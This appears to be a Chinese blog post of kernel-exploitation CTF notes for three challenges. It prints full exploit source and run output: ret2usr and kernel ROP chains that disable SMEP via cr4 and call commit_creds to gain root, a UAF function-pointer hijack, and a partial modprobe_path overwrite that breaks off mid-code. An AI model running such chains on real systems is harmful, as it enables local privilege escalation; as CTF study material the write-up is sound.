





小白学kernel，还是得多做题啊...打算周更kernel刷题笔记，如果笔者一周没更一题出来要么是大成了、要么是寄了

<!--more-->

先以一道极其简单的题目开始我的kernel之旅



## ccb kylin_driver

描述：题目很怪，开了kaslr但是为了调试改成nokaslr就没法启动了，而且做的时候没发现start.sh里写了pti=on，于是兴高采烈地去做ret2usr后来打不通发现开了pti。

总结：笔者把pti关了做了一遍ret2usr（就当练习了），然后又做了一遍kernel ROP，学会了gef的使用(果然pwndbg在kernel pwn还是功能还是太孱弱了，vmmap都报错)，

```shell
┌──(root㉿kali)-[/home/kali/Desktop/kernel/core]
└─# cat go.sh   
#!/bin/bash
# 切换到工作目录
cd ~/Desktop/kernel/core
# 编译 exploit
echo "[*] Compiling exploit..."
gcc exp.c -static -masm=intel -g -o exploit || {
    echo "[-] Compilation failed!"
    exit 1
}
# 打包文件系统
echo "[*] Creating rootfs.cpio..."
sudo bash -c "find . | cpio -o --format=newc > ../rootfs.cpio" || {
    echo "[-] Failed to create cpio archive!"
    exit 1
}
# 返回上级目录
cd ..
# 启动内核
echo "[*] Launching kernel..."
sudo ./start.sh
```

**ret2usr**(关了pti打)

```c
~ # cat exp.c
// gcc exp.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}
size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t addr, ko_addr, commit_creds_addr, prepare_kernel_cred_addr; 
size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/proc/kallsyms", "r");
    /* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            /* printf("hex: %s\n", hex); */
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }
        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            /* printf("vmlinux_base addr: %p\n", vmlinux_base); */
        }
    }

    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        //exit(0);
    }

}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

typedef struct {
    char buf1[32];
    char buf2[512];
} A;
void* (*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);
void ret2usr()
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred_addr;
    commit_creds_kfunc = (int (*)(void*)) commit_creds_addr;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "add rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, spawn_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );      
}

int main()
{
    save_status();
    int fd = open("/dev/test", 2);
    if(fd < 0)
    {
        puts("[*]open file error!");
        exit(0);
    }
    A a;
    find_symbols();
    // gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
    ssize_t offset = vmlinux_base - raw_vmlinux_base;

    strncpy(a.buf1,"gtwYHamW4U2yQ9LQzfFJSncfHgFf5Pjc",0x21);
    for(int idx=0;idx<32;idx++) a.buf1[idx] ^= 0xF9u;                             // decode 
    ioctl(fd,0xdeadbeef,&a); 
    
    for (int i = 7; i >= 0; i--) {
            ko_addr <<= 8;
            ko_addr |= ((unsigned char)a.buf2[i] ^ 0xF9);} 
    for (int i = 7; i >= 0; i--) {
            commit_creds_addr <<= 8;
            commit_creds_addr |= ((unsigned char)a.buf2[i+6*8] ^ 0xF9);}
    commit_creds_addr = commit_creds_addr +0xffffffff9cecf720- 0xffffffff9cefb48a;
    printf("ko address: 0x%llx\n", ko_addr);
    printf("commit_creds_addr address: 0x%llx\n", commit_creds_addr);
    
    prepare_kernel_cred_addr = commit_creds_addr +0xffffffffb34cfbe0-0xffffffffb34cf720;
    printf("prepare_kernel_cred_addr address: 0x%llx\n", prepare_kernel_cred_addr);
    size_t rop[0x50];
    int i = 0;
    unsigned long pop_rax_ret = 0xffffffff810b6d10 + (unsigned long)commit_creds_addr - 0xcf720 - 0;
    printf("pop_rax_ret address: 0x%llx\n", pop_rax_ret);

    rop[i++] = (size_t)pop_rax_ret;//pop_rax
    rop[i++] = 0x6f0;
    rop[i++] = (size_t)(ko_addr + 0x9);//mov_rdi,rax
    rop[i++] = (size_t)(ko_addr + 0xd);//mov_cr4_rdi
    rop[i++] = (size_t)ret2usr;
    //0xffffffff810b6d10 : pop rax ; ret
    memcpy((char*)a.buf2, (char*)rop, 0x200);
    for (int i = 0; i < 0x200; i++)
        *(a.buf2+i)^=0xf9;
    ioctl(fd, 0xfeedface, &a);
    return 0;
}
~ $ ./exploit
[*]status has been saved.
ko address: 0xffffffffc02db000
commit_creds_addr address: 0xffffffff8aacf720
prepare_kernel_cred_addr address: 0xffffffff8aacfbe0
pop_rax_ret address: 0xffffffff8aab6d10
~ # [  316.557081][   T15] Authorization warning: Authorization binary is corrupted, Please call 40.
id
uid=0 gid=0
```

**kernel ROP**

因为题目只给了bzImage，extract出来的vmlinux没有符号表符号表是裸的，所以swapgs_restore_regs_and_return_to_usermode需要先开root去/proc/kallsyms找

```c
~ # cat exp.c
// gcc exp.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}
size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t addr, ko_addr, commit_creds_addr, prepare_kernel_cred_addr; 
size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/proc/kallsyms", "r");
    /* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            /* printf("hex: %s\n", hex); */
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }
        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            /* printf("vmlinux_base addr: %p\n", vmlinux_base); */
        }
    }
    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        //exit(0);
    }

}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

typedef struct {
    char buf1[32];
    char buf2[512];
} A;

int main()
{
    save_status();
    int fd = open("/dev/test", 2);
    if(fd < 0)
    {
        puts("[*]open file error!");
        exit(0);
    }
    A a;
    find_symbols();
    // gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
    ssize_t offset = vmlinux_base - raw_vmlinux_base;

    strncpy(a.buf1,"gtwYHamW4U2yQ9LQzfFJSncfHgFf5Pjc",0x21);
    for(int idx=0;idx<32;idx++) a.buf1[idx] ^= 0xF9u;                             // decode 
    ioctl(fd,0xdeadbeef,&a); 
    
    for (int i = 7; i >= 0; i--) {
            ko_addr <<= 8;
            ko_addr |= ((unsigned char)a.buf2[i] ^ 0xF9);} 
    for (int i = 7; i >= 0; i--) {
            commit_creds_addr <<= 8;
            commit_creds_addr |= ((unsigned char)a.buf2[i+6*8] ^ 0xF9);}
    commit_creds_addr = commit_creds_addr +0xffffffff9cecf720- 0xffffffff9cefb48a;
    printf("ko address: 0x%llx\n", ko_addr);
    printf("commit_creds_addr address: 0x%llx\n", commit_creds_addr);
    
    prepare_kernel_cred_addr = commit_creds_addr +0xffffffffb34cfbe0-0xffffffffb34cf720;
    printf("prepare_kernel_cred_addr address: 0x%llx\n", prepare_kernel_cred_addr);
    size_t rop[0x50];
    int i = 0;
    unsigned long pop_rax_ret = 0xffffffff810b6d10 + (unsigned long)commit_creds_addr - 0xcf720 - 0xffffffff81000000;
    printf("pop_rax_ret address: 0x%llx\n", pop_rax_ret);
   // 0xffffffff81090c80 : pop rdi ; ret   //
    unsigned long pop_rdi_ret = 0xffffffff81090c80 + (unsigned long)commit_creds_addr - 0xcf720 - 0xffffffff81000000;
    unsigned long swapgs_restore_regs_and_return_to_usermode =  0xffffffffb1200ff0 - 0xffffffffb06cf720 + commit_creds_addr ;
    printf("swapgs offset: 0x%llx\n", 0xffffffffb1200ff0 - 0xffffffffb06cf720 + 0xcf720) ;
    rop[i++] = (size_t)pop_rdi_ret;
    rop[i++] = (size_t)0;
    rop[i++] = (size_t)prepare_kernel_cred_addr;
    rop[i++] = (size_t)(ko_addr+0x9);//mod_rdi_rax_ret
    rop[i++] = (size_t)commit_creds_addr;
    rop[i++] = (size_t)swapgs_restore_regs_and_return_to_usermode+0x36;
    rop[i++] = (size_t)0;
    rop[i++] = (size_t)0;
    rop[i++] = (size_t)spawn_shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp - 8 ;   // userland stack balance
    rop[i++] = user_ss;
    //0xffffffff810b6d10 : pop rax ; ret
    memcpy((char*)a.buf2, (char*)rop, 0x200);
    for (int i = 0; i < 0x200; i++)
        *(a.buf2+i)^=0xf9;
    ioctl(fd, 0xfeedface, &a);
    return 0;
}
~ $ ./exploit
[*]status has been saved.
commit_creds addr: (nil)
vmlinux_base addr: 0xfffffffffff63720
prepare_kernel_cred addr: (nil)
commit_creds addr: (nil)
vmlinux_base addr: 0xfffffffffff63720
commit_creds addr: (nil)
vmlinux_base addr: 0xfffffffffff63720
commit_creds addr: (nil)
vmlinux_base addr: 0xfffffffffff63720
[*]Error!
ko address: 0xffffffffc0368000
commit_creds_addr address: 0xffffffff9dccf720
prepare_kernel_cred_addr address: 0xffffffff9dccfbe0
pop_rax_ret address: 0xffffffff9dcb6d10
swapgs offset: 0xc00ff0
~ # 
```


## ccb-final NFS_KUAF

这次出题人把所有保护都关了，感觉邮电不祥的预感 (X_X )!!!

```shell
┌──(kali㉿kali)-[~/Desktop/kernel]
└─$ cat run.sh       
#!/bin/sh
qemu-system-x86_64 \
    -m 256M \
    -kernel bzImage \
    -initrd rootfs.cpio \
    -monitor /dev/null \
    -append "root=/dev/ram console=ttyS0 loglevel=8 earlyprintk=serial,ttyS0,115200 nokaslr pti=off" \
    -cpu kvm64,-smep,-smap \
    -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
    -nographic \
    -no-reboot
```

```shell
┌──(kali㉿kali)-[~/Desktop/kernel]
└─$ strings vmlinux | grep "Linux version"
Linux version 5.4.0-100-generic (haski@prod-haski-v2-x86-deb-builder-1) (gcc version 10.2.1 20210110 (Debian 10.2.1-6)) #100.1+m53+2nfs5 SMP Fri Mar 22 12:15:30 UTC 2024
```

ko文件扣了符号表，函数和上一题一样根本看不出来对应的fallback，学到了一个知识点：可以通过file_operations的偏移找

```
.rodata:0000000000000560 off_560         dq offset __this_module ; DATA XREF: .data:00000000000008B0↓o
.rodata:0000000000000568                 align 10h
.rodata:0000000000000570                 dq offset sub_43 //read
.rodata:0000000000000578                 dq offset sub_217 //write
.rodata:0000000000000580                 db    0
......
.rodata:00000000000005AF                 db    0
.rodata:00000000000005B0                 dq offset sub_408 //ioctl
.rodata:00000000000005B8                 db    0

struct file_operations { 
　　struct module *owner;//拥有该结构的模块的指针，一般为THIS_MODULES  
   loff_t (*llseek) (struct file *, loff_t, int);//用来修改文件当前的读写位置  
   ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);//从设备中同步读取数据      
   ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);//向设备发送数据  
   ssize_t (*aio_read) (struct kiocb *, const struct iovec *, unsigned long, loff_t);//初始化一个异步的读取操作   
   ssize_t (*aio_write) (struct kiocb *, const struct iovec *, unsigned long, loff_t);//初始化一个异步的写入操作   
　　int (*readdir) (struct file *, void *, filldir_t);//仅用于读取目录，对于设备文件，该字段为NULL   
   unsigned int (*poll) (struct file *, struct poll_table_struct *); //轮询函数，判断目前是否可以进行非阻塞的读写或写入   
　　int (*ioctl) (struct inode *, struct file *, unsigned int, unsigned long); //执行设备I/O控制命令   
　　long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long); //不使用BLK文件系统，将使用此种函数指针代替ioctl  
　　long (*compat_ioctl) (struct file *, unsigned int, unsigned long); //在64位系统上，32位的ioctl调用将使用此函数指针代替   
　　int (*mmap) (struct file *, struct vm_area_struct *); //用于请求将设备内存映射到进程地址空间  
　　int (*open) (struct inode *, struct file *); //打开   
　　int (*flush) (struct file *, fl_owner_t id);   
　　int (*release) (struct inode *, struct file *); //关闭   
　　int (*fsync) (struct file *, struct dentry *, int datasync); //刷新待处理的数据   
　　int (*aio_fsync) (struct kiocb *, int datasync); //异步刷新待处理的数据   
　　int (*fasync) (int, struct file *, int); //通知设备FASYNC标志发生变化   
　　int (*lock) (struct file *, int, struct file_lock *);   
　　ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);   
　　unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);   
　　int (*check_flags)(int);   
　　int (*flock) (struct file *, int, struct file_lock *);  
　　ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);  
　　ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);   
　　int (*setlease)(struct file *, long, struct file_lock **);   
};
```

ida逆向发现有一个UAF漏洞，还有个任意函数执行?，而且啥保护没开这不直接ret2usr，打着试试。

我靠，这不ret2usr就能打通吗？这踏马是决赛？😂😂😂

```c
~ $ ./exploit
[*]status has been saved.
~ # whoami
whoami: unknown uid 0
~ # cat exp.c
// gcc exp.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}
size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/proc/kallsyms", "r");
    /* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            /* printf("hex: %s\n", hex); */
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }
        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            /* printf("vmlinux_base addr: %p\n", vmlinux_base); */
        }
    }
    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        //exit(0);
    }

}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}
void* (*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);
void ret2usr()
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred;
    commit_creds_kfunc = (int (*)(void*)) commit_creds;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "add rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, spawn_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );      
}
int main()
{
    save_status();
    

    //find_symbols();
    // gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
    size_t ko_addr;
    commit_creds = 0xffffffff810c5010;
    vmlinux_base = 0xffffffff81028730;
    prepare_kernel_cred = 0xffffffff810c5270;
    ko_addr = 0xffffffffc0002000;

    int fd1 = open("/dev/uaf_device", 2);
    int fd2 = open("/dev/uaf_device", 2);
    size_t buffer[0x30];
    buffer[0]=(size_t)ret2usr;
    write(fd1,buffer,0x100);
    //ioctl(fd1,0);
    read(fd1,buffer,0x100);  
    return 0;
}
```


## Digging into Kernel

> 在模块载入时会新建一个 kmem_cache 叫 `"lalala"`，对应 object 大小是 192，这里我们注意到后面三个参数都是 0 ，对应的是 align（对齐）、flags（标志位）、ctor（构造函数），由于没有设置 `SLAB_ACCOUNT` 标志位故该 `kmem_cache` **会默认与 kmalloc-192 合并**。

c怪不得我半天调不出来“lalala” kmem_cache，原来是和kmalloc-192 merge了一下，

然而，在实际劫持freelist进行uaf去分配寻找modprobe_path的过程中，我们发现其实际上是在cred_jar上分配的。

```
gef> slub-dump cred_jar -n -q
slab_caches @ 0xffffffff824602c0

  kmem_cache: 0xffff888006c82500
    name: cred_jar
    flags: 0x40042000 (__CMPXCHG_DOUBLE | SLAB_PANIC | SLAB_HWCACHE_ALIGN)
    object size: 0xc0 (chunk size: 0xc0)
    offset (next pointer in chunk): 0x0
    red_left_pad: 0x0
    kmem_cache_cpu (cpu0): 0xffff88800702c090
      active page: 0xffffea00001ea0c0
        virtual address: 0xffff888007a83000
        num pages: 1
        in-use: 20/21
        frozen: 1
        layout:   0x000 0xffff888007a83000 (in-use)
                  0x001 0xffff888007a830c0 (in-use)
                  0x002 0xffff888007a83180 (in-use)
                  0x003 0xffff888007a83240 (in-use)
                  0x004 0xffff888007a83300 (in-use)
                  0x005 0xffff888007a833c0 (in-use)
                  0x006 0xffff888007a83480 (in-use)
                  0x007 0xffff888007a83540 (in-use)
                  0x008 0xffff888007a83600 (in-use)
                  0x009 0xffff888007a836c0 (in-use)
                  0x00a 0xffff888007a83780 (in-use)
                  0x00b 0xffff888007a83840 (in-use)
                  0x00c 0xffff888007a83900 (in-use)
                  0x00d 0xffff888007a839c0 (in-use)
                  0x00e 0xffff888007a83a80 (in-use)
                  0x00f 0xffff888007a83b40 (in-use)
                  0x010 0xffff888007a83c00 (in-use)
                  0x011 0xffff888007a83cc0 (in-use)
                  0x012 0xffff888007a83d80 (in-use)
                  0x013 0xffff888007a83e40 (in-use)
                  0x014 0xffff888007a83f00 (in-use)
                  0x015 0xffff888007a83fc0 (never-used)
        freelist (fast path):
                        0xffff88800009cff0
        freelist (slow path): (none)
    next: 0xffff888006c82400
```

另外地，我们无法通过`cat /proc/kallsyms`来找到`modprobe_path`的地址。幸运的是，在`__request_module`中，存在一个对`modprobe_path`的引用。由此，我们可以从`/proc/kallsyms`中找到`__request_module`函数的地址，并使用`gdb`连接到`kernel`，查看该函数附近的汇编代码，即可找到`modprobe_path`的地址~



最后成功通了，然而可惜的是，我的exp成功率低的可怜（实测只有30%左右）

```c
// gcc exp.c -static -masm=intel -g -o exp
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/user.h>
#include <ctype.h>
#include <stdint.h>
#include <sched.h>
#define PIPE_BUF_FLAG_CAN_MERGE 0x10
#define ROOT_SCRIPT_PATH  "/home/getshell"
char root_cmd[] = "#!/bin/sh\nchmod 777 /flag\n";

#define modprobe_a 0xffffffff82444700
void spawn_shell()
{

    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);


    //execve("/bin/sh",0,0);
    /***if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);***/
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus() { 
     __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}


void print_hex_buffer(const void *buffer, size_t size) {
    const unsigned char *data = (const unsigned char *)buffer;
    size_t i, j;

    if (buffer == NULL || size == 0) {
        printf("[!] Buffer is NULL or size is 0.\n");
        return;
    }

    printf("Dumping %zu bytes from %p:\n", size, buffer);
    printf("--------------------------------------------------------------------\;

    for (i = 0; i < size; i += 16) {
        printf("0x%08zx | ", i); 

        // 打印十六进制字节
        for (j = 0; j < 16; j++) {
